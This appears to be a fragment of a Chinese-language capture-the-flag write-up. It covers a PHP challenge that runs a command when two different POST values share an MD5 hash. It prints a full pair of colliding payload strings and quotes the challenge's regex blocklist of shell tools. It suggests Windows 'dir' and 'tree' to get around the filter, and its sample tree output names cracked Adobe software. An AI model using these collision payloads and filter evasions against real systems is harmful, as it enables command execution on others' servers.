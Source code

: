 ```
}

?> 
```

找到关键代码

```
if ((string)$_POST['a'] !== (string)$_POST['b'] && md5($_POST['a']) === md5($_POST['b'])) {
        echo `$cmd`;
    } else {
        echo ("md5 is funny ~");
    } 
```

一个md5强绕过

附上一组强绕过字符串

a=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%00%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%55%5d%83%60%fb%5f%07%fe%a2

b=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%02%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%d5%5d%83%60%fb%5f%07%fe%a2

啊我们通过post进行了强绕过

传入的cmd就用它搞点事把。输入dos命令

```
if (preg_match("/ls|bash|tac|nl|more|less|head|wget|tail|vi|cat|od|grep|sed|bzmore|bzless|pcre|paste|diff|file|echo|sh|\'|\"|\`|;|,|\*|\?|\\|\\\\|\n|\t|\r|\xA0|\{|\}|\(|\)|\&[^\d]|@|\||\\$|\[|\]|{|}|\(|\)|-|<|>/i", $cmd)) {
    echo("forbid ~");
    echo "<br>"; 
```

ls被过滤了呢，那就用dir把。

## DOS dir()

**dir 类似于ls 使用 也可以 dir / 查找根目录**

```
dir/b 
```

*   生成文件目录树，常见于 github 中

    ```
    tree		查看文件夹目录结构
    tree /f		查看文文件目录结构 
    ```

    效果

    ```
    F:.
    ├───Adobe Illustrator(AI) CS6 破解补丁
    │   └───破解补丁
    │       ├───32
    │       └───64
    └───photpshopCS6破解补丁
        ├───32
        └───64 
    ```
